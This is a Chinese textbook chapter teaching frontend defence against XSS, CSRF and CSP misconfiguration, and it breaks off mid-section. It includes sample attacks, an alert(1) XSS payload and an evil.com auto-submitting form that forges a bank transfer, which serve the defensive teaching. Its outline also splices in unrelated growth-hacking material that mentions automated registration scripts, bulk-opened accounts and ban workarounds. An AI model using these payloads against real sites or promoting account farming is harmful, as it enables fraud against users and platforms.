









# 第 42 章 前端安全体系与商业自动化工程化实战

## 学习目标

- 理解 XSS 攻击的三大分类（存储型、反射型、DOM-based）成因及防御核心：上下文感知的输出编码
- 掌握 HTML/Attribute/JS/URL/CSS 五大编码上下文的差异与对应转义策略，会用 DOMPurify 与 Trusted Types 实施白名单清洗
- 理解 CSRF 攻击原理与 SameSite Cookie（Strict/Lax/None）的防御边界，能实现双重提交令牌模式作为兜底
- 掌握 CSP 3 核心指令（nonce、strict-dynamic、report-uri）配置方法，能制定灰度上线策略并处理第三方脚本兼容
- 建立前端供应链安全意识：会接入依赖审计、锁文件版本固化、恶意包行为检测与 SBOM 生成的 CI/CD 门禁
- 能产出《前端安全开发规范》《安全编码 Checklist》《漏洞分级与响应流程》，接入 SDL 全生命周期管理体系
- 理解 RPA 自动化在数据采集与流程执行中的工程化落地方法，掌握‘手动→梳理→开发→测试→修复’五步法
- 掌握福格行为模型（B=MAP）在引流场景的迁移应用，能拆解‘动机-能力-提示’三要素设计合规引流体系
- 理解‘热点驱动变现’的商业逻辑：极速响应、痛点锚定、替代方案锚定、技术杠杆交付的闭环打法
- 掌握‘矩阵思维’与‘复制能力’：将单体盈利模型标准化为 SOP，通过多账号/多团队/多渠道并行实现规模化跃迁

## 42.1 生活类比

想象前端安全是一个**多层安检的机场航站楼**。XSS 防御如同登机口安检（输出编码/Trusted Types）：乘客(数据)在进入登机区(HTML/JS/CSS 执行上下文)前，必须通过金属探测门(上下文感知编码)，携带违禁品(脚本标签/事件处理器)直接拦截；VIP 通道(富文本/合法 HTML)需人工复核白名单(DOMPurify)，不能凭脸通关(正则自造)。CSRF 防御如同登机牌+身份证双证核验（SameSite + CSRF Token）：SameSite=Lax 就像国内航班只验登机牌(同站请求自动带 Cookie)，国际航班(跨站 POST/AJAX)必须额外查护照(CSRF Token)；SameSite=None 就像过境免签，虽方便但必须加装 GPS 追踪器(双重令牌)防止劫持。CSP 如同机场禁飞区与白名单机制：明确规定只有持有当日动态通行证(nonce)的飞机(内联脚本)能起降，且只能按批准航线(strict-dynamic)飞行；闯入者(内联事件/外部恶意脚本)直接被防空导弹(浏览器拦截)击落，并上报空管中心(report-uri)。供应链安全如同行李传送带全程 X 光+封条（依赖审计+锁文件+SBOM）：每件行李(依赖包)入场必扫描已知威胁库(advisory DB)，可疑行为(网络请求/混淆代码)直接剔除；给每件行李加防拆封条(lockfile 哈希)，目的地核对清单(SBOM)防止掉包。安全基线与 SOP 如同机场标准化运行手册与应急预案：每日例检(CI 门禁)、突发事件分级响应(P0 停航/P1 备降/P2 记录)、事后复盘更新手册(RCA)；新航线(新业务/新技术栈)开通前必须走审批流程，不可凭经验‘野蛮生长’。RPA 自动化如同机器人的‘影分身’：像《我的世界》积木与 ChatGPT 输入框一样，可视化编程极大降低‘从 0 到 1’门槛，释放非技术人群创造力，使‘有想法、有痛点’者直接将业务逻辑转化为自动化流程。引流行为设计如同福格行为模型的工程化落地：动机 = 精准选题击中痛点，能力 = 手写 SOP 降低操作门槛，提示 = 多触点植入引导线索；就像游戏设计：让玩家‘想玩、会玩、被提醒去玩’，三缺一不可。热点变现如同便利店门口的‘雨伞经济学’：暴雨(热点)来袭 -> 路人(用户)淋湿痛点强 -> 便利店(团队)现成雨伞(替代方案) + 极速上架(技术杠杆) -> 雨停前售罄；核心不是造伞(研发)，而是‘现成雨伞+极速上架’的供应链反应力。矩阵思维如同连锁加盟店的‘标准化复制’：单店盈利模型(SOP)跑通后，通过‘分身’(矩阵号/分团队)规模化复制；核心资产不是‘这家店’，而是‘可复制的开店手册与供应链体系’。

## 42.2 概念地图

前端安全体系 (第 9 章)
├── XSS 攻防全景
│   ├── 三大分类：存储型 / 反射型 / DOM-based  —— P001
│   ├── 五大编码上下文：HTML / Attribute / JS / URL / CSS  —— P001
│   ├── 核心防御：输出编码 / DOMPurify 白名单 / Trusted Types 强制类型  —— P001
│   └── 纵深兜底：CSP 策略 / HttpOnly Cookie  —— P001, P003
├── CSRF 与 SameSite Cookie
│   ├── 攻击链路：自动携带 Cookie 的跨站请求伪造  —— P002
│   ├── SameSite 属性：Strict / Lax(默认) / None+Secure  —— P002
│   ├── 双重提交令牌：Cookie/Header 同步校验模式  —— P002
│   └── 边界：子域共享 Cookie 失效 / 无状态 JWT 免疫  —— P002
├── 内容安全策略 (CSP)
│   ├── 核心指令：script-src / style-src / connect-src / default-src 等  —— P003
│   ├── 现代模式：nonce-<base64> + 'strict-dynamic'  —— P003
│   ├── 部署策略：Report-Only 灰度 -> 强制模式 + report-uri 上报  —— P003
│   └── 兼容处理：哈希值回退 / 第三方脚本白名单 / 托管代理  —— P003
├── 供应链安全
│   ├── 依赖审计：npm/pnpm/yarn audit + CI 门禁阈值  —— P004
│   ├── 锁文件完整性：package-lock.json / pnpm-lock.yaml 哈希锁定  —— P004
│   ├── 恶意包检测：Socket / Snyk / OSSF Scorecard 静态行为分析  —— P004
│   └── SBOM 生成：CycloneDX / SPDX 格式 @cyclonedx/bom / syft  —— P004
├── 安全基线与应急 SOP
│   ├── 三大清单：接入清单 / 编码清单 / 发布清单  —— P005, P109, P110
│   ├── 自动化门禁：Husky 提交拦截 / CI 漏洞阻断 / CD 签名校验  —— P005, P109
│   ├── 监控告警：CSP 违规上报 / JS 异常激增 / 埋点异常 -> IM 告警  —— P005, P109
│   └── SDL 落地：需求评审 / 设计评审 / 编码规范 / 测试验收 / 发布上线 / 运维响应  —— P005, P109, P110
├── RPA 自动化工程化 (P106)
│   ├── 核心定位：软件的软件 / 可视化编程 / 非侵入式控制  —— P106
│   ├── 五步开发法：手动操作 → 步骤梳理 → 模块开发 → 运行测试 → 修复 BUG  —— P106
│   ├── 关键技术：元素识别 vs 图像识别 / 滑动参数化校准 / 字典去重与末尾标志终止 / Try-Catch 异常捕获  —— P106
│   └── 适用性判据：高频、重复、有界、无 API 场景  —— P106
├── 引流行为设计 (P085, PEfm3dQsmpoUyHxxDPaAcoqXvnVe)
│   ├── 福格行为模型：B=MAP (动机×能力×提示)  —— P085, PEfm3dQsmpoUyHxxDPaAcoqXvnVe
│   ├── 三大模块：强化私信动机 / 降低私信难度 / 提示私信行为  —— P085, PEfm3dQsmpoUyHxxDPaAcoqXvnVe
│   ├── 合规 SOP：手写纸条 / 流程图 / 关键词搜索指引  —— P085, PEfm3dQsmpoUyHxxDPaAcoqXvnVe
│   └── 全链路触达：图片植入 / 评论区置顶 / 私信主动 / 群聊公告  —— P085, PEfm3dQsmpoUyHxxDPaAcoqXvnVe
├── 热点驱动变现 (PKJ0CdYG18oMFStxpa17cxS0wnyt)
│   ├── 核心公式：极速响应 × 现成方案 × 技术杠杆 = 正反馈闭环  —— PKJ0CdYG18oMFStxpa17cxS0wnyt
│   ├── 替代品锚定：无门槛/低成本/高可用 映射痛点(科学上网/封号/贵)  —— PKJ0CdYG18oMFStxpa17cxS0wnyt
│   ├── 交付即服务：自动化注册脚本 / 批量开通会员 / 开箱即用账号  —— PKJ0CdYG18oMFStxpa17cxS0wnyt
│   └── 分销裂变：高佣金(40%) / 无退款 / 短结算周期(T+3)  —— PKJ0CdYG18oMFStxpa17cxS0wnyt
└── 矩阵化规模化 (PAiCrd19EAoPvvPx0HSJczxk3nfC)
    ├── 核心洞见：单体项目与规模化项目同构，差异仅在于复制能力  —— PAiCrd19EAoPvvPx0HSJczxk3nfC
    ├── 复制能力：SOP标准化 / 分身体系 / 横向扩张  —— PAiCrd19EAoPvvPx0HSJczxk3nfC
    ├── 价值评估重构：看‘可复制性×门槛’而非单体收益绝对值  —— PAiCrd19EAoPvvPx0HSJczxk3nfC
    └── 收益放大：总收益 = 单体收益 × 成功复制分身数(N)  —— PAiCrd19EAoPvvPx0HSJczxk3nfC

## 42.3 XSS 攻防全景 —— 从输入过滤到输出编码的纵深防御

### 为什么需要这个概念？

Web 应用的核心交互是“数据输入 -> 处理 -> 数据输出”，若输出环节未对不可信数据进行编码，浏览器会将其当作代码执行。攻击者注入恶意脚本可窃取 Cookie、劫持会话、篡改页面、发起钓鱼，危害直达用户隐私与资金安全。现代前端框架虽提供默认转义，但 `dangerouslySetInnerHTML`、`v-html`、URL 拼接、CSS 注入等“逃逸口”极易被误用。

### 核心定义

**XSS（跨站脚本攻击）**：攻击者将恶意脚本注入被信任网站，受害者浏览器加载页面时执行攻击脚本。
按注入持久化路径分：
- **存储型**：恶意脚本存入数据库，后续访问页面时从数据库读取并渲染执行。
- **反射型**：恶意脚本通过 URL 参数传递，服务端直接拼接在响应 HTML 中返回执行。
- **DOM-based**：纯前端 JS 解析 URL（如 `location.hash`）或数据动态渲染到 DOM，无服务端参与。

> **原文摘录**  
> > "区分 HTML/Attribute/JS/URL/CSS 五大编码上下文，实战 DOMPurify 白名单清洗、Trusted Types 强制安全类型赋值。"  
> > —— 《20230418_042.md》

### 关键性质：编码上下文决定防御策略

这是 XSS 防御中最核心、最易踩坑的一点：**HTML 实体编码、属性编码、JavaScript 编码、URL 编码、CSS 编码互不通用，必须匹配输出位置**。

输入过滤/白名单只能作辅助，**输出编码/上下文感知转义**是核心防线（OWASP 首选）。

**Trusted Types (W3C 标准)** 强制要求敏感 DOM API（如 `innerHTML`、`document.write`、`eval`）只接受 `TrustedHTML`、`TrustedScript` 等类型对象，从类型系统根源杜绝字符串拼接注入。

**为什么这行得通？** 
浏览器在解析 HTML、执行 JS、加载 CSS 时遵循不同的语法规则。例如 `<` 在 HTML 中代表标签开始，但在 JS 字符串中只是普通字符；`&` 在 HTML 属性中需转义为 `&amp;`，但在 URL 查询参数中需转义为 `%26`。若在 JS 字符串上下文使用 HTML 实体编码，输出 `&lt;script&gt;` 会被 JS 引擎当作字面量文本而非标签，导致防御失效。因此，**编码器必须与输出上下文的解析器严格对应**。

### 典型例子

| 攻击类型 | 场景描述 | 代码示例 |
| :--- | :--- | :--- |
| **反射型** | 搜索页直接拼接 URL 参数 | `q=<script>alert(1)</script>` -> `<div>搜索结果: {q}</div>` |
| **存储型** | 评论区存入恶意脚本 | 提交 ``，所有访问者中招 |
| **DOM-based** | 前端读取 hash 直接渲染 | `element.innerHTML = location.hash.slice(1)` 无编码 |

**防御实战对照表**：

| 框架/场景 | 默认行为 | 逃逸口 | 修正方案 |
| :--- | :--- | :--- | :--- |
| **React** | JSX 默认转义 HTML 实体 | `dangerouslySetInnerHTML={{__html: userInput}}` | 必须配合 `DOMPurify.sanitize(userInput)` |
| **Vue** | `{{ }}` 默认转义 | `v-html="userInput"` | 必须配合 `DOMPurify.sanitize(userInput)` |
| **原生 JS** | 无默认保护 | `element.innerHTML = userInput` | 改用 `element.textContent = userInput` 或显式编码 |
| **URL 拼接** | 无默认保护 | `href="/search?q=" + userInput` | 使用 `encodeURIComponent(userInput)` |
| **CSS 注入** | 无默认保护 | `style="color: {{userColor}}"` | 白名单校验 CSS 值，禁止 `expression()`、`url()` 等危险函数 |

> **公式块后解释**  
> 上述防御对照表的核心逻辑：框架默认转义仅覆盖最常见的 HTML 文本节点上下文。一旦开发者使用“逃逸口”API（如 `innerHTML`、`v-html`），框架保护即刻失效，此时必须显式引入**上下文感知的编码器**（如 DOMPurify 的 HTML 清洗、JS 编码器、URL 编码器）才能恢复防御。

### 边界条件

1.  **富文本场景**：编辑器、Markdown 渲染等“合法 HTML 场景”必须引入 `DOMPurify` 等成熟库做白名单清洗，**不可自造正则**。
2.  **CSP 纵深防御**：CSP (Content-Security-Policy) 是兜底，非替代品。`script-src 'self'` 可阻断内联脚本与外域加载，但需配合 nonce/hash 支持合法内联脚本。
3.  **HttpOnly Cookie**：可防窃取 Cookie，但无法阻止 `fetch` 发起带凭证请求（CSRF 风险仍在）。

### 方法演进图



> **方法演进图说明**：XSS 防御技术栈经历了从“输入侧过滤”（黑名单易绕过、语境丢失）到“输出侧编码”（上下文感知、精准转义），再到“富文本白名单清洗”（DOMPurify 解决合法 HTML 需求），进而到“类型系统强制”（Trusted Types 从语言层面禁止字符串流入敏感汇点），最后到“浏览器执行策略兜底”（CSP 限制脚本来源）。每一层解决上一层无法覆盖的边界场景，形成纵深防御体系。

---

## 42.4 CSRF 与 SameSite Cookie —— 同源策略演进下的“令牌双保险”

### 为什么需要这个概念？

浏览器自动携带 Cookie 的特性导致：用户登录 A 站 -> 访问恶意 B 站 -> B 站自动发起对 A 站的请求（带上 Cookie）-> A 站误以为是用户自主操作。传统防御依赖 `Referer` 检查或同步令牌模式（表单隐藏字段 + Session 校验），但 `Referer` 可被篡改/隐私模式丢失，同步令牌需后端改造且易漏掉接口。

### 核心定义

**CSRF（跨站请求伪造）**：利用受害者已认证身份，在不知情情况下强制发起状态改变请求（转账、改密、发帖）。

**SameSite Cookie 属性**：
- `Strict`：完全禁止跨站携带 Cookie（甚至链接跳转也不带）。
- `Lax`：允许链接跳转、GET 表单跨站携带 Cookie，**现代浏览器默认值**。
- `None`：跨站携带 Cookie，必须配合 `Secure`（仅 HTTPS）。

> **原文摘录**  
> > "演示 CSRF 攻击链路，对比 `SameSite` 属性在跨站请求中的拦截效果，实现基于 Header 的双重提交令牌模式。"  
> > —— 《20230418_042.md》

### 关键性质

1.  **SameSite=LaX 的防御边界**：可拦截 90%+ CSRF（POST 表单、AJAX、iframe 跨站均不带 Cookie），但**无法防御**站内 XSS 发起的请求、顶级导航 GET 请求。
2.  **双重提交令牌模式**：后端生成 Token -> 前端读取 Cookie/Header -> 请求头/体同时携带 -> 后端校验一致性。防御不依赖 SameSite，兼容旧浏览器，是兜底方案。
3.  **SameSite=None; Secure**：用于跨域嵌入场景（如第三方支付、SSO），**必须配合 CSRF Token 双重防护**。

**SameSite 为何能拦截跨站 POST？** 
浏览器在发起请求前，会检查 Cookie 的 SameSite 属性与请求的“站点关系”（通过 eTLD+1 判断）。若为 `Lax`，仅允许“顶级导航的安全方法（GET/HEAD/OPTIONS）”携带 Cookie；POST、AJAX、iframe、图片加载等“子资源请求”均被判定为跨站上下文，**浏览器直接在发送前剥离 Cookie**，导致后端无法识别用户身份，请求因未认证而失败。这是浏览器原生强制的“发送端拦截”，无需后端代码参与。

### 典型例子

**恶意页面发起 CSRF 攻击**：
```html
<!-- 攻击者页面 evil.com -->
<form action='https://bank.com/transfer' method='POST' id="csrf-form">
  <input name='amount' value='10000'>
  <input name='to' value='attacker'>
</form>
<script>document.getElementById('csrf-form').submit()</script>
```

- **SameSite=Lax 下**：上述 POST 表单提交**不携带 Cookie**，请求未认证，防御生效。
- **但若银行提供 `GET /transfer?to=attacker&amount=10000`**：Lax 允许顶级导航携带 Cookie，**CSRF 依然生效**（需强制状态改变用 POST + Token）。

### 边界条件

1.  **子域名共享 Cookie**（`Domain=.example.com`）时，SameSite 视为同站，**无法防御**子域名 XSS 发起的 CSRF。
2.  **无状态架构（JWT 在 Header 而非 Cookie）** 天然免疫 CSRF，但面临 XSS 窃取 Token 风险，需配合短过期 + 刷新机制。
3.  **旧版浏览器不支持 SameSite**，必须保留 CSRF Token 兜底。

### 多源对照

本章涉及的核心防御策略在不同安全专家与工程实践中存在共识与差异，汇总如下：

| 维度 | 共识点 | 分歧/补充视角 | 本章采纳策略 |
| :--- | :--- | :--- | :--- |
| **CSRF 核心成因** | 浏览器自动携带 Cookie 是根因 | 无 | 确立 Cookie 自动携带为核心成因 |
| **SameSite=Lax 有效性** | 现代浏览器默认开启，拦截 90%+ 跨站 POST/AJAX | 部分旧版浏览器/WebView 不支持 | 视为第一道防线，非唯一防线 |
| **双重提交令牌必要性** | 兼容旧环境、防御站内 XSS、防御 GET 类 CSRF | 增加后端状态管理复杂度 | **必须保留**作为纵深兜底 |
| **SameSite=None 场景** | 跨域嵌入（支付/SSO）必须用 None+Secure | 此时 SameSite 完全失效 | **强制绑定**双重提交令牌 |
| **JWT Header 免疫性** | 无 Cookie 自动携带，架构层面免疫 CSRF | 引入 XSS 窃取 Token 新风险 | 推荐无状态架构，配合短过期+刷新机制缓解 XSS 风险 |
| **子域共享 Cookie 风险** | SameSite 视为同站，跨子域 CSRF 失效 | 业务常需共享登录态 | 子域场景**必须**部署双重提交令牌 |

---

### 方法演进图

```mermaid
graph TD
    A[Referer 检查] --> B[同步令牌模式]
    B --> C[SameSite Cookie (Strict/Lax)]
    C --> D[双重提交令牌 + SameSite 组合]
    D --> E[无状态 JWT Header (架构层面免疫)]
```

> **方法演进图说明**：CSRF 防御从依赖不可靠的 `Referer` 头，演进为后端状态管理的“同步令牌”，再到浏览器原生支持的 `SameSite` 属性（零代码防御 90% 场景），最终形成“SameSite 为盾、双重令牌为矛”的组合拳，并在架构层面通过 JWT Header 认证彻底移除 Cookie 自动携带这一攻击面。

---

## 42.5 内容安全策略 (CSP) —— 给浏览器加把“执行锁”

### 为什么需要这个概念？

XSS 根因是“浏览器无法区分开发者代码与攻击者注入代码”，CSP 通过 HTTP Header 显式声明“合法代码来源”，将执行权限收回开发者手中。即使存在 XSS 漏洞，严格 CSP 也能阻断恶意脚本执行、阻止数据外泄（`connect-src`）、禁止内联脚本/样式，将损失降至最低。

### 核心定义

**CSP 3 核心指令**：
- `default-src`：兜底策略
- `script-src`：脚本来源
- `style-src`：样式来源
- `img-src`：图片来源
- `connect-src`：AJAX/WebSocket/Fetch 连接目标
- `font-src`、`object-src`、`frame-src`、`base-uri`、`form-action` 等

**关键机制**：
- `nonce-<base64>`：每次响应生成随机值，内联脚本需带相同 nonce 才能执行。
- `'strict-dynamic'`：信任受信脚本（带 nonce 的脚本）动态加载的后续脚本，递归信任。
- `'unsafe-inline'`/`'unsafe-eval'`：**强烈禁用**，会彻底失去 CSP 防护内联脚本的能力。

> **原文摘录**  
> > "编写严格 CSP 策略：`script-src 'nonce-xxx' 'strict-dynamic'`、`report-uri` 收集违规日志、通过 Report-Only 模式灰度上线。"  
> > —— 《20230418_042.md》

### 关键性质：部署策略与兼容处理

**部署策略（灰度上线）**：
1.  **Report-Only 模式**：`Content-Security-Policy-Report-Only: ...; report-uri /csp-report`。仅上报违规，不拦截，收集误报数据。
2.  **分析修正**：根据上报日志，调整策略（补充哈希、允许必要内联、修复第三方脚本冲突）。
3.  **强制模式**：切换为 `Content-Security-Policy: ...` 正式生效。

**现代 SPA 推荐模式**：
```http
Content-Security-Policy: 
  default-src 'self'; 
  script-src 'nonce-rAnd0m123' 'strict-dynamic'; 
  style-src 'self' 'nonce-rAnd0m123'; 
  img-src 'self' data:; 
  connect-src 'self' https://api.example.com; 
  frame-ancestors 'none'; 
  base-uri 'self'; 
  form-action 'self'; 
  report-uri /csp-report
```

> **公式块后解释**  
> 该 CSP 策略逐行解析：
> - `default-src 'self'`：所有未显式声明的指令默认仅允许同源资源。
> - `script-src 'nonce-rAnd0m123' 'strict-dynamic'`：**核心防线**。仅允许携带本次响应唯一随机 `nonce` 的内联脚本执行，并**递归信任**该脚本动态加载的后续脚本（如 Webpack 运行时加载的 chunk、第三方库动态 import）。这彻底禁用了无 nonce 的内联脚本、`eval`、`new Function`、`setTimeout(string)` 等动态代码执行。
> - `style-src 'self' 'nonce-rAnd0m123'`：同源样式 + 带 nonce 的内联样式。
> - `connect-src 'self' https://api.example.com`：限制 AJAX/WebSocket 仅能连自域名与业务 API 域名，阻断数据外泄至攻击者服务器。
> - `frame-ancestors 'none'`：禁止被任何页面嵌入 iframe，防点击劫持。
> - `base-uri 'self'`：限制 `<base>` 标签仅能指向同源，防基础路径劫持。
> - `form-action 'self'`：限制表单提交目标仅为同源，防表单劫持。
> - `report-uri /csp-report`：违规详情（被阻断的 URI、违反指令、脚本片段、页面 URL）实时上报至后端分析系统。

- Vue/React 构建产物自动注入 nonce 需配合 `vite-plugin-csp-nonce` 或 `html-webpack-plugin` 等工具链支持。

**nonce 与 strict-dynamic 协作原理为何有效？**
1. 服务端每次响应生成加密安全的随机 `nonce` 值（Base64 编码，至少 128 位熵），注入入口 `<script nonce="...">` 与内联 `<style nonce="...">`。
2. 浏览器解析 HTML，仅执行 nonce 匹配的入口脚本。
3. 入口脚本（如 Webpack runtime）运行时通过 `document.createElement('script')` 动态创建脚本标签加载后续 chunk，**这些动态脚本无需 nonce**，浏览器因 `'strict-dynamic'` 存在而信任其来源链。
4. 攻击者注入的恶意 `<script>` 无 nonce，且非受信脚本动态创建，**直接被拦截**。

### 边界条件

